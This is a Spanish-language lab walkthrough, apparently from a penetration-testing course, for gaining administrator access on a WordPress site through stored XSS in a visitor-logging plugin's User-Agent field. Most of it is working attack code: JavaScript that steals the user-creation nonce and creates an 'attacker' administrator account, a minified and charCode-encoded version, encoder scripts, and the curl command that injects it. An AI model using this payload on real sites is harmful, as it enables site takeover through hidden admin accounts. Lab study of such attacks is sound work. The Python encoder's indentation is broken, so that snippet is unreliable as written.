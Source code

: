 # Walk: Escalada de privilegios mediante XSS - POC

## Fecha: 16/01/2025
## Host: Kali
## IP: 192.168.{subNet}.16

---

## Objetivo
Crear un usuario con permisos de administrador por medio de XSS.
De esta POC salen las respuestas del laboratorio. 8.4.5
---
## Herramientas
1. BurpSuite 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: De la POC anterior, podemos definir un vector de ataque.
2. Paso 2: Exploramos las cookies en busca del atributo HttpOnly en false.
	 - al no encontrar cookies de interes que nos sirvan optamos por **cambiar el angulo del vector de ataque**
3. Paso 3: Se torna necesario cubrir otra clase de ataque, y se explora la utilizacion del **nonce (Number Used Once) ** de wordpress
	 El nonce en WordPress actúa como una medida de seguridad para validar que una acción o solicitud 
	 proviene de una fuente legítima y autorizada. Su objetivo principal es prevenir ataques CSRF (Cross-Site Request Forgery), 
	 pero también puede proteger contra algunas variantes de ataques XSS o abuso de endpoints sensibles.
4. Paso 4:Definicion del **Vector de ataque**: 
	Entonces, sabiendo de la POC anterior que **Visitor** es vulnerable a XSS por medio 
	del User-Agent en la cabecera podemos obtener el **nonce** y crear un usuario con permisos de administrador.
5. Paso 5: Generacion de Payload:
	1. Obtenemos el **nonce**:
	```
		var ajaxRequest = new XMLHttpRequest();
		var requestURL = "/wp-admin/user-new.php";
		var nonceRegex = /ser" value="([^"]*?)"/g;
		ajaxRequest.open("GET", requestURL, false);
		ajaxRequest.send();
		var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
		var nonce = nonceMatch[1];

	```
	2. Creamos el usuario con permisos Administrativos:\
	``` 
		var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
		ajaxRequest = new XMLHttpRequest();
		ajaxRequest.open("POST", requestURL, true);
		ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
		ajaxRequest.send(params);

	```
6. Paso 6: Minificamos y codificamos el JS para enviarlo en el User-Agent en la cabecera.
7. Paso 7: Una vez minificado el codigo anterior lo guardamos en un archivo:
	- echo 'var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);' > input.txt
	- creamos un script en python para codificarlo:
	``` 
		def encode_to_python(string):
		    output = ""
    		    for pos in range(len(string)):
        		  output += str(ord(string[pos]))
        		  if pos != len(string) - 1:
            	          output += ","
    			  return output

		# Leer el string desde un archivo
		with open("input.txt", "r") as file:
    		input_string = file.read().strip()  # Lee el contenido del archivo y elimina espacios o saltos de línea

		# Llamar a la función con el string leído
		encoded = encode_to_python(input_string)

		# Imprimir el resultado
		print(encoded)

	```
	- el output de esto debe lucir algo asi: ...118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,...
	- Esta alternativa con python es una eleccion personal. Es posible lograr el mismo resultado con javascript desde el navegador o instalando NodeJS.
	- Dentro del curl ejecutamos eval y fromCharCode(payload)
8. Paso 8 (Final): Ejecutamos el Payload:
	- curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...payload ...118,97,114,32,97...))</script>" --proxy 127.0.0.1:8080
	- antes de ejecutar el script anterior abrimos Burpsuite con el interceptor apagado y corroboramos que el codigo de respuesta sea 200
	- Verificamos en el panel de Visitors > Start para ejecutar nuestro Payload y ver el usuario creado.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **JavaScript 1:** enocde_to_javascript(string) => ...118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,...
	```
		function encode_to_javascript(string) {
          	      var input = string
          	      var output = '';
           	 	for(pos = 0; pos < input.length; pos++) {
                	     output += input.charCodeAt(pos);
                	     if(pos != (input.length - 1)) {
                    	        output += ",";
                	     }
            	        }	
            	        return output;
        	 }
        
		let encoded = encode_to_javascript('insert_minified_javascript')
		console.log(encoded)
	```
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)


